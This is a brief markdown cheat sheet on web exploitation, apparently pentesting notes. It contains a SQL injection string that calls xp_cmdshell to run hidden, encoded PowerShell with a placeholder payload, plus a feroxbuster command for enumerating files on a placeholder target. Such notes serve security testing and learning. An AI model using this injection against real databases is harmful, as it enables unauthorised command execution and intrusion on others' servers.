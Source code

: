 # Web Exploitation

## SQL Injection Example

```sql
'; EXEC xp_cmdshell "powershell -nop -w hidden -e <payload>"--
```

## File Enumeration

```shell
feroxbuster -u http://<target> -x pdf,js,html
```
